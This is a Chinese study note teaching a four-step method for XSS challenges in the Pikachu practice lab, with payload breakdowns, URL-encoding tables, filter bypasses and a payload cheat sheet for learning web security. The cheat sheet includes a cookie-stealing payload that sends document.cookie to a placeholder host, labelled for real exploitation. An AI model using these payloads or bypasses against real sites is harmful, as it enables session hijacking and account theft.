

# XSS 做题方法论：从「看不懂 payload」到「知道下一步点哪」
> 刚接触靶场时，最难的不是原理，而是**下一步该干嘛**。这份笔记把 XSS 类题目的通用流程拆成四步，附 payload 逐字拆解、URL 编码对照、常见限制的绕过方式。以后遇到 XSS 题，照着走就行。
## 一、先搞清楚：XSS 到底在测什么
### 1.1 一句话定义
> **你输入的文字，被浏览器当成了代码执行。**
### 1.2 为什么会这样
网页是 HTML 写的，HTML 里的内容分两种：
| 类型 | 例子 | 浏览器的反应 |
| --- | --- | --- |
| 普通文字 | `你好` | 显示出来 |
| 标签 | `<b>你好</b>` | 解析成加粗的「**你好**」 |
| 脚本标签 | `<script>alert(1)</script>` | **执行里面的代码** |
正常情况下，网站应该把用户输入**只当普通文字**处理（转义）。
一旦它没做处理，直接把你输入的内容拼进 HTML，你写标签它就当标签，你写脚本它就执行——这就是 XSS。
### 1.3 通关标准
**没有 flag。** 让页面执行你的代码，就是通关。
表现形式可以是：
- 弹出对话框
- 页面变红 / 变样
- 标签页标题改变
- 出现一个碎图
**任何一个都算成功。**
## 二、通用四步法

### 步骤 1：找入口
先看这个页面**哪里能塞东西进去**：
| 入口类型 | 怎么看 |
| --- | --- |
| 输入框 | 页面上有没有 `<input>` |
| URL 参数 | 地址栏里有没有 `?xxx=` |
| 表单字段 | F12 里有没有 `type="hidden"` 的字段 |
| HTTP 头 | 后面几关会用到（User-Agent、Referer） |
### 步骤 2：测回显
随便输入一个**独特**的字符串，比如 `abc123`，看它出现在页面哪里。
为什么要独特？因为 `test` 这种词可能在页面里本来就存在，容易看花眼。
**这一步的目的**：确认你的输入会不会被显示出来。
### 步骤 3：试标签（核心技巧）
输入：
```html
<b>abc</b>
```
看页面怎么显示：
| 页面显示 | 含义 | 下一步 |
| --- | --- | --- |
| **abc**（加粗） | 标签**被解析**了 | ✅ 有戏，上 payload |
| `<b>abc</b>`（连尖括号一起显示） | 被**转义**了 | ❌ 此路不通 |
**为什么用 `<b>` 而不是 `<script>`？**
1. `<b>` 加粗后你一眼就能看出来，`<script>` 不一定有可见效果；
2. `<b>` 很少有网站会过滤，能更准确地测出「尖括号活不活」；
3. 它没有副作用，不会弹窗打断你。
这一步叫**差分测试**：用最小代价，判断「尖括号能不能活」。
### 步骤 4：上 payload
确认能解析标签后，换成：
```html
<script>alert(1)</script>
```
没反应就换别的（见第七节）。
## 三、payload 逐字拆解
### 3.1 最标准的
```html
<script>alert(1)</script>
```
| 部分 | 意思 |
| --- | --- |
| `<script>` | 告诉浏览器：「下面这段是代码」 |
| `alert(1)` | 代码内容：弹出一个写着 `1` 的框 |
| `</script>` | 代码结束 |
### 3.2 备选：借图片触发
```html

```
| 部分 | 意思 |
| --- | --- |
| `` | 插入一张图片 |
| `src=x` | 图片地址是 `x`（不存在，所以一定加载失败） |
| `onerror=` | **加载失败时**要执行什么 |
| `alert(1)` | 失败时弹窗 |
**为什么用它？** 很多网站会过滤 `<script>`，但不管 ``。
### 3.3 更短的
```html
<svg/onload=alert(1)>
```
`<svg>` 是矢量图标签，加载完成时触发 `onload`。字符数少，适合有长度限制的场景。
### 3.4 不依赖弹窗的
```html
<script>document.body.style.background='red'</script>
```
把页面背景改成红色。**有些浏览器会静音弹窗**，用这种"持久可见"的效果更稳妥。
```html
<script>document.title='XSS'</script>
```
改标签页标题，同样持久可见。
## 四、URL 里的符号是什么意思
地址栏里经常出现 `%3C` 这种看不懂的东西，它就是 URL 编码：
| 编码 | 原字符 | 用在哪 |
| --- | --- | --- |
| `%3C` | `<` | 尖括号 |
| `%3E` | `>` | 尖括号 |
| `%22` | `"` | 双引号 |
| `%27` | `'` | 单引号 |
| `%20` | 空格 | 空格 |
| `%2F` | `/` | 斜杠 |
| `%28` `%29` | `(` `)` | 括号 |
**为什么需要编码？** 因为 URL 里直接写 `<` `>` 有歧义，所以要转成百分号形式。服务器收到后会自动解码回原字符。
> 大多数情况下，你直接把 `<script>alert(1)</script>` 粘进地址栏，浏览器会自动帮你编码，效果一样。
## 五、怎么判断成功了
| 页面表现 | 结论 |
| --- | --- |
| 显示文字 `<script>alert(1)</script>`（能看到尖括号） | 被转义，**失败** |
| 弹出对话框 | **成功** |
| 出现碎图 | **成功**（标签被解析成图片元素） |
| 页面变红 / 标题改变 | **成功**（代码执行了） |
| 页面完全没变化 | 检查参数名、payload 是否被截断 |
**核心原则：不要只等弹窗。**
弹窗只是最直观的表现形式。代码执行了但没弹窗的情况很常见：
- 浏览器把弹窗静音了
- 你点了确定，框已经关掉
- payload 的效果是改 DOM，本来就不弹
## 六、最常见的三个误区
### 误区一：没弹窗 = 失败
页面中间"空了一块"，很可能就是 `<script>` 的位置——标签不渲染文字，所以看起来是空的。
**正确做法**：对比输入普通文字时的显示，或者 F12 看 DOM 里是 `<script>` 还是 `&lt;script&gt;`。
### 误区二：输入框有长度限制就做不了
`maxlength="20"` 是**前端限制**，只能约束浏览器里的输入框。
**绕过**：直接改地址栏，或者 F12 删掉 `maxlength` 属性。
### 误区三：删掉 `script` 关键字就安全了
黑名单永远会被绕过：
| 被拦的 | 换成 |
| --- | --- |
| `<script>` | `` |
| `` | `<svg onload=>` |
| `<svg>` | `<body onload=>` |
| 大小写区分 | `<ScRiPt>` |
这就是为什么防御必须用**输出转义**，而不是删关键字。
## 七、遇到限制怎么办
| 限制 | 绕过方式 |
| --- | --- |
| 输入框 `maxlength` | 改 URL，或 F12 删属性 |
| `<script>` 被过滤 | 换 ``、`<svg>`、`<body onload>` |
| 双引号被转义 | 用不带引号的写法：`onerror=alert(1)` |
| 括号被过滤 | 试 `alert\`1\`` 或 `confirm(1)` |
| 空格被过滤 | 用 `/` 代替，如 `<svg/onload=alert(1)>` |
## 八、payload 小抄
| payload | 作用 | 什么时候用 |
| --- | --- | --- |
| `<b>test</b>` | 只加粗 | **探测有没有过滤**（第一步用） |
| `<script>alert(1)</script>` | 标准弹窗 | 没有过滤时 |
| `` | 借坏图片弹窗 | `script` 被过滤时 |
| `<svg/onload=alert(1)>` | SVG 加载执行 | 需要更短时 |
| `<script>document.body.style.background='red'</script>` | 页面变红 | 弹窗被禁用时 |
| `<script>document.title='XSS'</script>` | 改标题 | 同上 |
| `<script>alert(document.cookie)</script>` | 显示 Cookie | 验证危害 |
| `<script>new Image().src='//your-server/?c='+document.cookie</script>` | 外带 Cookie | 真实利用 |
## 九、这一套方法的本质
| 层面 | 内容 |
| --- | --- |
| **找** | 哪里能输入 |
| **测** | 输入会不会被显示、尖括号活不活 |
| **打** | 用能用的标签构造 payload |
| **判** | 看页面/ DOM / 响应，而不是只看弹窗 |
四步里，**第三步（差分测试）最关键**——它决定了后面所有 payload 的选择。
## 十、练完这些之后
Pikachu 的 XSS 模块是一个递进序列，建议按顺序打：
- [x] 反射型xss(get) —— 最简单，练"找入口 + 测回显"
- [ ] 反射型xss(post) —— 参数从 URL 换到表单
- [ ] 存储型xss —— 输入进数据库，危害最大
- [ ] DOM型xss —— 服务器不参与
- [ ] xss之盲打 —— 看不到回显怎么办
- [ ] xss之过滤 —— 黑名单绕过
- [ ] xss之htmlspecialchars —— 转义写错的情况
- [ ] xss之href输出 —— 输出位置不同，payload 不同
- [ ] xss之js输出 —— 输出到 JS 代码里
**顺序不是随便排的**：前面练"能不能注入"，后面练"被拦了怎么绕"。
## 参考
- [Pikachu 源码](https://github.com/zhuifengshaonianhanlu/pikachu)
- [OWASP: Cross Site Scripting](https://owasp.org/www-community/attacks/xss/)
- [MDN: HTML 字符实体](https://developer.mozilla.org/zh-CN/docs/Glossary/Entity)
- [PortSwigger XSS 实验](https://portswigger.net/web-security/cross-site-scripting)
---
**一句话记住整套方法**：
> **先测「尖括号能不能活」，再决定「用什么 payload」。**
>
> 尖括号活 → 直接上标签；尖括号死 → 换思路，别硬怼。
